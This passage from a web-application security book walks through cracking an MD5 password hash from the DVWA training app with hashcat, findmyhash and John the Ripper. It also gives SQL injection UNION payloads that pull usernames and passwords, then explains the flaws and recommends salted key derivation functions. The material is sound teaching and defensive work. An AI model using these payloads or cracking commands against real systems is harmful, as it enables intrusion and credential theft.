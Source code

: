 G>
G> Then take your pick of the following three commands:  
G> Create `~/hashtocrack.txt` and put the hash(s) you want cracked in it. Usually you would create a profiled wordlist tailored to your target as we did in the Password Profiling section of the People chapter in [Fascicle 0](https://f0.holisticinfosecforwebdevelopers.com). For this exercise, just add the following four words to `~/wordlist-to-throw-at-dvwa`:  
G> `dogs`, `cats`, `admins`, `admin`. Now you can compare the hashed words from the list with the hash in the `~/hashtocrack.txt`

{icon=bomb}
G> 1. `hashcat -m 0 ~/hashtocrack.txt ~/wordlist-to-throw-at-dvwa`  
G>    `-m 0` means MD5 to hashcat.  
G> 2. `[algorithm]` for next command in this case will be `MD5`  
G>    `findmyhash [algorithm] -h <hash_value>`  
G>    `findmyhash` is a cracker that queries online lists.  
G> 3. `john --format=raw-MD5 ~/hashtocrack.txt ~/wordlist-to-throw-at-dvwa --show`
G>
G> This gives us the "super secure" password of "admin"  
G>
G> In order to login, we need the username. In this case they were the same, but for some other users they were not. So our last query.  
G> Full server query guess:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT user, password FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT user, password FROM users WHERE first_name LIKE '%`  
G> Or simplified:  
G> `1' UNION SELECT user, password FROM users#'`
G> Now we have our admin password and user.

There are two main problems here.

1. SQL Injection
2. Poor decisions around sensitive data protection. We discuss this in depth further on in this chapter in the [Data-store Compromise](#web-applications-identify-risks-management-of-application-secrets-data-store-compromise) section, and even more so the [Countermeasures](#web-applications-countermeasures-data-store-compromise) section. Do not follow this example of bad practise. Use well salted and quality, strong key derivation functions (KDFs) on all of the sensitive data in your own projects.

#### NoSQLi {#web-applications-identify-risks-nosqli}

NoSQL Injection is semantically very similar to SQL Injection and Command Injection with JavaScript on vulnerable servers. The main differences are in the syntax of the attack.

NoSQL data stores often provide greater performance and scaling benefits, but in terms of security, they are at a disadvantage due to far fewer relational and consistency checks.

There are currently [over 225 types of NoSQL](http://nosql-database.org/) data stores, and each one does things differently. This means that if we only considered the number of NoSQL systems as compared to SQL, then the likelihood of confusion specific to safe queries for any given NoSQL engine has increased dramatically. There is also more room for an attacker to move within NoSQL queries than with SQL due to being heavily dependent on JavaScript, which is a dynamic, loosely typed general purpose language rather than the far more tightly constrained declarative SQL.
